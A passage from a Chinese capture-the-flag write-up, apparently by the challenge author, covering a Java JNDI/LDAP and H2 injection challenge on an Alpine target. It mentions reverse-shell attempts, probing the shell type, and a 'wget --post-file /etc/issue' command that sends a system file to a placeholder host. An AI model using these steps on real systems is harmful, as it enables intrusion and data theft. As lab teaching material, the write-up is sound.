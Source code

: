 ```java
                String refAttr = "";
                RefAddr refAddr;

                for (int i = 0; i < count; i++) {
                    refAddr = ref.get(i);

                    if (refAddr instanceof StringRefAddr) {
                        refAttr = ("" + separator + i +
                                separator + refAddr.getType() +
                                separator + refAddr.getContent());
                    }
                    attrs.addAttribute("javaReferenceAddress", refAttr);
                }

            }
        }

    }
}
```

如果直接尝试反弹bash，通常会失败。我们可以使用一些简单的方法来判断他是什么环境，比如执行一个`/bin/bash`，页面会回显failed，如果执行`/bin/ash`，页面会回显ok，说明他是个alpine发行版。或者使用`wget --post-file /etc/issue http://xxxx`来获得发行版信息。

### 坑点

1. 在h2中创建函数的函数名不能重复，如果重复会导致报错无法执行命令，可以在函数名后面加入一个随机字符串，使得脚本每次运行都可用。

2. 题目环境是alpine，由于这一点比较隐晦，导致我被多位师傅拷打。但个人认为题目环境也是包含在需要探测的信息中，本题的意义也是希望师傅们通过各种方法来获取到题目的java版本，依赖项和发行版的信息。

最后对被“本地通了、远程没通”折磨的师傅道个歉，呜呜。